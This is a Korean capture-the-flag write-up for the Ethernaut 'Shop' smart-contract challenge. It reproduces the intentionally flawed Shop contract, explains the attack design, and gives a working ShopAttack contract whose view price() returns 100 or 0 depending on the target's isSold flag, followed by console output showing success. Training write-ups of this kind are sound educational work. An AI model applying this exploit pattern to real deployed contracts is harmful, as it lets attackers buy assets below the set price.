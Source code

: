 https://teberr.notion.site/Ethernaut-Shop-0dc6312b73b24d57a8805445219b94bf

![shop.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5ba2b80d-0d19-432d-b542-325bbbe7ba55/shop.png)

> 과연 주어져 있는 price(100)보다 싼 가격으로 상점에서 물건을 살 수 있을까요?

- shop은 Buyer(구매자)가 사용하는 컨트랙트 입니다.
- view 접근제어자의 제약을 기억해보세요!
> 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

# 코드 분석 및 공격 설계

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

문제 컨트랙트인 Shop 컨트랙트는 buy 함수가 핵심이다. 

1. buy를 호출한 주소는 price()함수를 가지고 있어야 한다.(즉 컨트랙트에서 호출해야함)
2. 호출한 컨트랙트의 price함수 리턴값이 100보다 크거나 같고 아직 물건이 팔리지 않았어야 한다.
3. isSold 상태 변수를 true로 변경한다.
4. price 값을 호출한 컨트랙트의 price함수 리턴값으로 변경한다.

문제 목적은 price를 100보다 작은 값으로 변경하고 isSold를 true로 만드는 것이다.

### View 접근제어자

Buyer 인터페이스의 price() 함수는 접근제어자가 view로 되어있다. 

view 접근제어자는 상태 변수를 읽을 수는 있지만 변경은 불가능한 함수에 붙는 접근제어자이다. 

### 공격 설계

문제의 목적인 isSold를 true로 만들기 위해서는 if 문의 조건인 호출자인 (msg.sender) 컨트랙트의 price 리턴값이 100보다 크거나같고 isSold가 false여야 한다.

초기의 isSold는 어차피 false이므로 내 컨트랙트의 price 함수의 리턴값이 100이상이면 된다.

조건문 내부로 들어오면 price 값을 재설정 해주는데 이 값은 다시 한번 호출자인(msg.sender) 컨트랙트의 price함수를 호출한다. 이 리턴 값은 100보다 작아야 한다.

따라서 다음과 같은 조건으로 설정하면 된다.

1. 문제 인스턴스인 buy()함수를 호출하는 공격 컨트랙트를 작성한다.
2. 공격 컨트랙트에는 view 접근제어자로 되어있는 price()함수가 존재해야 한다.
3. price()함수는 처음 호출되었을 때는 100이상의 값을, 두번째 호출되었을 때는 100보다 작은 값을 리턴해야한다.

이 때 한가지 알아둬야 하는 점은 view 접근제어자로 되어있기 때문에 내 공격컨트랙트의 상태 변수를 변경하여 첫번째 호출인지 두번째 호출인지를 알 수 없다는 점이다. 따라서 첫번째 호출인지 두번째 호출인지 구분할 상태변수가 필요한데 그 값은 바로 문제 인스턴스의 isSold 상태변수를 기준점으로 하면 된다.

public으로 선언된 상태변수는 솔리디티 내부에서 컴파일 되며 그 상태변수의 값을 리턴해주는 상태변수명()함수를 만들기 때문에 public으로 선언된 isSold 상태변수 또한 그 값을 리턴해주는 isSold() 함수를 가지고 있다.

이 함수를 호출하는 것은 상태변수를 변경하는 것이 아니기 때문에 view 접근제어자가 달려있는 price()함수에서도 가능하다. 따라서 이를 이용해 위의 조건을 만족하는 공격 컨트랙트를 작성하면 된다.

# 공격

```solidity
//SPDX-License-Identifier:MIT
pragma solidity ^0.8.0;
interface IShop{
    function buy() external;
    function isSold()external view returns(bool);
}
contract ShopAttack{
    IShop target ;
    constructor(address _target){
        target=IShop(_target);
    }

    function attack()public {
        target.buy();
    }
    
    function price() public view returns (uint){ // view는 상태 변수를 읽을 수는 있으나 변경은 안함
        if (target.isSold()==true){
            return 0;
        }else{
            return 100;
        }
    }

}
```

공격 컨트랙트에서 공격을 진행하면 문제 인스턴스의 buy함수를 호출한다.

constructor를 통해 문제 인스턴스의 주소를 받는다.

buy함수에서는 공격컨트랙트의 price함수를 두번 호출하게 되는데 처음 호출할때의 isSold 상태변수는 false이므로 100을 리턴하고 두번째 호출할 때는 isSold의 상태변수의 값이 true이므로 0을 리턴하게 된다.

![문제 인스턴스 상태변수 공격 성공.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/bd91c8aa-2835-4981-957d-1cb75067629f/%EB%AC%B8%EC%A0%9C_%EC%9D%B8%EC%8A%A4%ED%84%B4%EC%8A%A4_%EC%83%81%ED%83%9C%EB%B3%80%EC%88%98_%EA%B3%B5%EA%B2%A9_%EC%84%B1%EA%B3%B5.png)

```jsx
->(await contract.price()).toNumber()
0
-> await contract.isSold()
true
```

공격 컨트랙트를 deploy(배포)후 attack()함수를 실행하여 문제 인스턴스의 buy함수를 실행시켜 주면 isSold는 true로 price는 0으로 변경된다.

문제 목적을 달성하였으므로 제출하면 된다.
